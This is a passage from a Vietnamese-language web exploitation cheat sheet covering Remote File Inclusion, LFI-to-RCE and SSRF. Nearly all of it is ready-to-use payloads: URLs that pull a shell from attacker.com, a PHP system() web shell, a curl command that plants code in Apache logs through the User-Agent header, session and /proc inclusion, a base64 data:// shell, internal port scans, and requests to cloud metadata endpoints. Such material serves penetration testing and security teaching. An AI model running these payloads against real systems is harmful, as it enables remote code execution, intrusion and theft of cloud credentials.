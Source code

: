 ### Remote File Inclusion (RFI):

```
# Payloads cơ bản (yêu cầu allow_url_include=On)
http://target.com/page.php?file=http://attacker.com/shell.txt
http://target.com/page.php?file=ftp://attacker.com/shell.txt

# Sử dụng shell PHP cơ bản
<?php system($_GET['cmd']); ?>
```

### LFI to RCE techniques:

```
# Thông qua log files
# 1. Chèn code PHP vào User-Agent
curl -s -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://target.com/
# 1. Khai thác qua lỗ hổng LFI
http://target.com/page.php?file=../../../var/log/apache2/access.log&cmd=id

# Thông qua /proc/self/environ (environments)
http://target.com/page.php?file=/proc/self/environ

# Thông qua session files
# 1. Chèn PHP code vào session
http://target.com/page.php?param=<?php system('id'); ?>
# 1. Include session file
http://target.com/page.php?file=../../../var/lib/php/sessions/sess_SESSIONID

# Sử dụng PHP wrappers
http://target.com/page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2BCg%3D%3D&cmd=id
```

## 3.4. Server-Side Request Forgery (SSRF)

SSRF cho phép kẻ tấn công gửi các yêu cầu từ server ứng dụng đến các hệ thống nội bộ hoặc bên ngoài, thường vượt qua các cơ chế bảo vệ như firewalls.

### Basic SSRF payloads:

```
# Kiểm tra SSRF cơ bản
http://target.com/page?url=http://localhost
http://target.com/page?url=http://127.0.0.1
http://target.com/page?url=http://[::1]

# Quét ports nội bộ
http://target.com/page?url=http://127.0.0.1:22
http://target.com/page?url=http://127.0.0.1:3306

# Truy cập metadata cloud
http://target.com/page?url=http://169.254.169.254/latest/meta-data/   # AWS
http://target.com/page?url=http://metadata.google.internal/   # GCP
http://target.com/page?url=http://169.254.169.254/metadata   # Azure
```
